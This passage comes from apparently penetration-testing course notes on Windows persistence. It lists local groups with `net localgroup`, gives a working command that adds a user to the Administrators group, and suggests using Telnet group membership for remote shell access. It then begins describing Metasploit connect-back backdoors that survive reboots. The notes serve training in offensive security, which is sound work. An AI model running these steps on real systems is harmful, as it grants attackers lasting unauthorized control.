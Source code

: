     **Note:**
      We can use the `net` command to list groups and add users into them.
      Let's see first how to list all groups with the `net localgroup` command:
        ```
        -----------------------------------------------------------------------
        *Administrators
        *Backup Operators
        *Cryptographic Operators
        *Distributed COM Users
        *Event Log Readers
        *Guests
        *IIS_IUSRS
        *Network Configuration Operators
        *Performance Log Users
        *Power Users
        *Remote Desktop Users
        ```

      If we want to list users within a specific group we just need to add the name of the group at the end of the previous command.
      For example let's list users in the RPD group:
        ```
        net localgroup "Remote Desktop Users"
        Alias name    Remote Desktop Users
        Comment       Members in this group are granted the right to logon remotely

        Members
        ---------------------------------------------------------------------------
        els_user
        The command completed successfully.
        ```
    Now that we have the groups list, we could add the user to one of them.
      For example we can grant *Standard Users* with *Administrator* privileges, by simply adding them in the *Administrator* group. (see img-138)
      ```
      C:\Users\els\Downloads>net localgroup "Administrators" stduser /add
      net localgroup "Administrators" stduser /add
      The command completed successfully.
      ```

    Note that you can do the previous steps for all the groups listed before.
      For example, if you want a remote shell on the system, instead of RDP, you can make sure that Telnet service is enabled, and that your user is in the "*TelnetClients*" group.
      This way you can connect back again through Telnet with the same username and password.

2. Backdoor
    Our goal is to use Metasploit in order to generate an executable file (backdoor) that will persist through reboots of the victim machine.

    Note that we are going to use connect-back backdoors, which means that it will be the victim machine that initiates the connection.

    This way, we will avoid issues with dynamic IP addresses or firewalls in the middle.
